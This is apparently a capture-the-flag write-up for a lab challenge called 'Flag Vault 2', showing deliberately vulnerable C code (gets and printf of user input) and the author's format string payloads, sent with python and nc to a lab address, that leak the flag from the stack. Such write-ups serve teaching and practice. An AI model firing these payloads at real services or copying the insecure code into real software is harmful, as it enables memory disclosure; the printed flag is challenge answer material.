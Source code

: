 ## Flag Vault 2

> Format String Exploitation

![image](https://github.com/user-attachments/assets/63609813-9ce4-48a8-89bf-4c76ca814636)



### Source Code

```
#include <stdio.h>
#include <string.h>

void print_banner(){
 printf( "  ______ _          __      __         _ _   \n"
   " |  ____| |         \\ \\    / /        | | |  \n"
  " | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
  " |  __| | |/ _ |/ _ \\ \\/ / _ | | | | | __|\n"
  " | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
  " |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
  "                  __/ |                      \n"
  "                 |___/                       \n"
  "                                             \n"
  "Version 2.1 - Fixed print_flag to not print the flag. Nothing you can do about it!\n"
  "==================================================================\n\n"
       );
}

void print_flag(char *username){
        FILE *f = fopen("flag.txt","r");
        char flag[200];

        fgets(flag, 199, f);
        //printf("%s", flag);
 
 //The user needs to be mocked for thinking they could retrieve the flag
 printf("Hello, ");
 printf(username);
 printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
 printf("Yours truly,\nByteReaper\n\n");
}

void login(){
 char username[100] = "";

 printf("Username: ");
 gets(username);

 // The flag isn't printed anymore. No need for authentication
 print_flag(username);
}

void main(){
 setvbuf(stdin, NULL, _IONBF, 0);
 setvbuf(stdout, NULL, _IONBF, 0);
 setvbuf(stderr, NULL, _IONBF, 0);

 // Start login process
 print_banner();
 login();

 return;
}
```

---

### Initial Memory Leak Attempt

First, I tried overflow it by putting tons of characters in it 

I then tried leaking memory to look for a return of hex values.

```python3 -c 'print("%x "*50)' | nc 10.10.100.29 1337```

This returned a bunch of random hex values so I know it worked, but no flag appeared yet.

![notflag](https://github.com/user-attachments/assets/37f3bc44-42ba-41da-8508-3461144838b0)


---

### Switching it up
%x prints values in hex, %p leaks pointer values — which will get me flag fragments in memory.

I used the command:

```python3 -c 'print("%p "*50)' | nc 10.10.100.29 1337```


This leaked a few stack values from the memory:

```
0x6d726f667b4d4854  →  "THM{form"
0x65757373695f7461  →  "at_issue"
```

*(The flag was here right under my nose tbh buttt I was getting hot hot hot and wanted to keep going until it was correct...)*

---

### Extracting the Full Flag

Once I realized what was going on, I refined my attack to read the 5th argument on the stack as a string (%5$s) combined with AAAA:

*the "AAAA" prefix helps locate where the input lands in memory — good trick for offset guessing.*

```python3 -c 'print("AAAA%5$s")' | nc 10.10.100.29 1337```

![image](https://github.com/user-attachments/assets/569d8f39-aefc-43d6-8b95-ea9b294d33c1)

This gave me:

THM{format_issues}
